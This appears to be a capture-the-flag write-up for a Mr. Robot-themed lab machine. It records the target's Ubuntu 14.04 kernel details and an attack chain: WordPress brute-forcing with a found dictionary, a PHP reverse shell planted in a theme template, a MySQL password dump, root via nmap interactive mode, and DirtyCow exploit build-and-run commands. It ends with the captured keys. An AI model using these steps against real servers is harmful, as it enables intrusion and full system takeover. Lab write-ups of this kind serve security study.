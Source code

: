 ```html
</html>
```

# Kernel Info:

\[+\] file /bin/bash

```
/bin/bash: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=54967822da027467f21e65a1eac7576dec7dd821, stripped
```

\[+\] lsb_release -a

```
lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 14.04.2 LTS
Release:        14.04
Codename:       trusty
```

\[+\] uname -a

```
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
```

# Exploits and Payloads:

\[+\] Found wordpres site. Enumerated. Found .dic file on webserver  
\[+\] used fsociety.dic to bruteforce wordpress.  
\[+\] edited twentyfifteen 404.php template with php revshell  
\[+\] dumped mysql-passwd, enumerated local file system and found old version of nmap  
\[+\] leveraged nmap in interactive mode to pop a root shell.  
\[+\] dirtycow2 is also usable.

```
DirtyCow2 (CVE 2016–5195) \\
cd /base/exploits/kernel ; python3 -m http.server  
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dirty2.cpp -lutil
./dcow -s 
```

# Writeup:

==PROOF==

```
key 1 073403c8a58a1f80d943455fb30724b9
key 2 822c73956184f694993bede3eb39f959
key 3 04787ddef27c3dee1ee161b21670b4e4
```